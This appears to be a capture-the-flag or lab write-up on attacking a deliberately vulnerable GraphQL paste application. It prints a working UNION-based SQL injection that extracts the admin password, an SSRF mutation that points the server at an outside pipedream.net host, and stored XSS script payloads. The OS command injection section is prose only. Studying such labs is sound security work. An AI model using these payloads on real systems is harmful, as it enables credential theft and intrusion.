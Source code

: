 

##Flags

**SQLi**  

SQL Injection happens when user input is directly joined with an SQL statement without proper validation. One simply needs to ascertain the context in which injection occurs and validate the resulting SQL statement.

In this case, the web application, with the below payload, returns errors from which we can deduce user input is directly inputted in the SQL statement.

`query={pastes(filter:"1'"){content}}`

SInce this is an error based SQLi we have output, and that means we can directly exfiltrate the information by constructing an appropriate query.

Steal admin username: `{pastes(filter:"a'%20UNION%20SELECT%201%2c%202%2c%20password%2c%204%2c%205%2c%206%2c%207%2c%208%20FROM%20users%20+WHERE+username+=+'admin'+--"){content}}`

This queries uses the UNION directive, which takes the results from two statements and places them on one virtual table. In this case, the first table, the one of the left, does not have an output, and the second query only has one. In order to find out which field is being reflected in the response, we can simply do `SELECT 1, 2, 3, 4, 5, 6, 7, 8` and see which number is reflected, then we need only to replace, in the constructed statement, the number, for the field we want to SELECT. In this case, we care about the password field, so all we need to do is replace it with corresponding number. 

**SSRF** 

Server-Side Request Forgery - As the a name implies, a request is made server-side. In this case, it's not blind, as the html of the site requested is fully reflected onto the page. SSRF can be damaging. As it is server side, one can replace a simple `http://` request, with, for example, `file://`, then the server will interpret it as a directive to look into its own file system, and will then reflect the file you give it from there.

```

{"query":"mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!) {\n        importPaste(host: $host, port: $port, path: $path, scheme: $scheme) {\n          result\n        }\n      }","variables":{"host":"eowhrtbaia65ev1.m.pipedream.net","port":443,"path":"/","scheme":"https"}}

```

**Stored XSS & HTML Injection** 

Stored XSS, or persistent XSS, means user input is reflected onto the html without proper validation and is stored in a databse, which means everytime you open the page, the payload will execute. Whether it be JS code or HTML code.

`{"query":"mutation{createPaste(title:\"swag'<script>alert(1);</script>\",content:\"swag2'<script>alert(1);</script>\"){paste{title,content}}}"}`

**OS Command Injection** 

OS Command Injection - This implies the direct use of input to the shell or simply a `system` function with input made by the user. That sink, or direct communcation with the shell, allows us to inject arbitrary commands on any host for as long as the host has those commands available.
